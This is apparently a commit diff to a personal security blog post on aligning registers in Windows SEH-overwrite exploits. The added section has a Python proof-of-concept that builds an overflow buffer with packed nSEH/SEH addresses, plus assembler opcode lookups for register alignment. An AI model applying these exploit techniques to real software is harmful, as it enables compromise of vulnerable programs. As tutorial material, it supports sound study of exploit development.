

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-05-23-Alignments-on-windows-registers.md, in a window 1280 px wide and 900 px high, scrolled down 5829 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-05-23-Alignments-on-windows-registers.md

````diff
--- a/_posts/posts/2020-05-23-Alignments-on-windows-registers.md
+++ b/_posts/posts/2020-05-23-Alignments-on-windows-registers.md
@@ -173,6 +173,62 @@
 f.close()
 ```
 
-# Results
+## Results
 
 ![](/assets/img/Alignments/2.png)
+
+# SEH Overwrites
+
+As the Stack Overflows section has already been covered, it will now be proceeded to explain how alignments are performed within this scenario, which can be a little more complex, as the registers are not aligned by default.
+
+In order to perform the experiment, the same application will be used.
+
+Current poc:
+
+```term
+import struct
+
+nseh = struct.pack("<I", 0x06710870)
+seh = struct.pack("<I", 0x10031779)
+
+buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + "\xff" * 200
+f = open ("poc.txt", "w")
+f.write(buffer)
+f.close()
+```
+
+Once the exploit is run, the payload is pasted and loaded, the debugger shows an interesting reaction:
+
+![](/assets/img/Alignments/3.png)
+
+Checking the registers, none of them have the exact value, nor similar. Usually, when performing alignments in SEH Overwrites, the EAX register tends to be used, as it normally requires friendly characters, and is a non-volatile pointer as well.
+
+In order to perform the calculations as intended, it must be zeroed. The best way to do this, would be to copy the value of EDI, which is zero, to EAX. The instructions required for this operations would be PUSH EDI, POP EAX.
+
+Getting the opcodes for the operation with msf-nasm_shell:
+
+```term
+nasm > PUSH EDI
+00000000  57                push edi
+nasm > POP EAX
+00000000  58                pop eax
+nasm >
+```
+
+Once this is done, it is posible to proceed with the calculations.
+
+There are plenty of methods to align a register. However, a good one to start with would be copying the value of ESP to EAX. Furthermore, the address you desire EAX to be aligned is substracted to such register.
+
+Getting the opcodes for copying ESP to EAX.
+
+```term
+nasm > PUSH ESP
+00000000  54                push esp
+nasm > POP EAX
+00000000  58                pop eax
+nasm >
+```
+
+After the 4 bytes are positioned after the padding, the debugger reacts as intended:
+
+![](/assets/img/Alignments/4.png)
````
